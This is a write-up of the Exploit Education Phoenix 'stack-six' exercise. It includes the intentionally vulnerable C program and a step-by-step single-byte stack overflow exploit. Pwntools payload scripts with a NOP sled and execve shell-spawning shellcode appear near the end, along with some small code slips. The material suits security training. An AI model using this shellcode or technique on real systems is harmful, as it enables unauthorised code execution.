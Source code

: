 Source

```c
/*
 * phoenix/stack-six, by https://exploit.education
 *
 * Can you execve("/bin/sh", ...) ?
 *
 * Why do fungi have to pay double bus fares? Because they take up too
 * mushroom.
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *what = GREET;

char *greet(char *who) {
  char buffer[128];
  int maxSize;

  maxSize = strlen(who);
  if (maxSize > (sizeof(buffer) - /* ensure null termination */ 1)) {
    maxSize = sizeof(buffer) - 1;
  }

  strcpy(buffer, what);
  strncpy(buffer + strlen(buffer), who, maxSize);

  return strdup(buffer);
}

int main(int argc, char **argv) {
  char *ptr;
  printf("%s\n", BANNER);

#ifdef NEWARCH
  if (argv[1]) {
    what = argv[1];
  }
#endif

  ptr = getenv("ExploitEducation");
  if (NULL == ptr) {
    // This style of comparison prevents issues where you may accidentally
    // type if(ptr = NULL) {}..

    errx(1, "Please specify an environment variable called ExploitEducation");
  }

  printf("%s\n", greet(ptr));
  return 0;
}
```

# Solution

We can fill up the buffer and overflow a single byte after the `strdup`

![](_attachments/Pasted%20image%2020230402100358.png)

![](_attachments/Pasted%20image%2020230402100321.png)

Perhaps we can manipulate this overflow to point back to the address of our environment variable

To find that, I used the following steps:

![](_attachments/Pasted%20image%2020230402105904.png)

I had to add 0x10 to the address, to skip the `ExploitEducation=` prefix, which leaves us with the address:
`0x0x7fffffffef10`

Because we can manipulate the last byte of the "buffer"/return address, lets check if our code is somwhere within this range `0x0x7fffffffe500 - 0x0x7fffffffe5ff`:
![](_attachments/Pasted%20image%2020230402105729.png)
So when we return, we need to see if we can manipulate the address to be 0x00007fffffffe510. This will jump to our shellcode, probably should include a couple of nop's to make it line up correctly and then some real shellcode. 

![](_attachments/Pasted%20image%2020230402110357.png)

You can see we changed to value of RBP to `0x..10`, this is with the character backtick character.

Lets mod the shellcode to be `\x90 * 126 + \x10`

```python
from pwn import *

buf = b"\x90" * 126 + "\x10"

print(buf)
```

![](_attachments/Pasted%20image%2020230402110541.png)
When we now break at main, we can see RBP is now pointing to our shellcode.
Lets change up the shellcode to be a real one..

```python
from pwn import *

shellcode = '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

# build the payload - with a small nop sled
payload = b"\x90" * 20
payload += shellcode
payload += b"A" * (126 - len(payload))
# overwrite RIP byte
payload += b"\x10"

print(payload)
```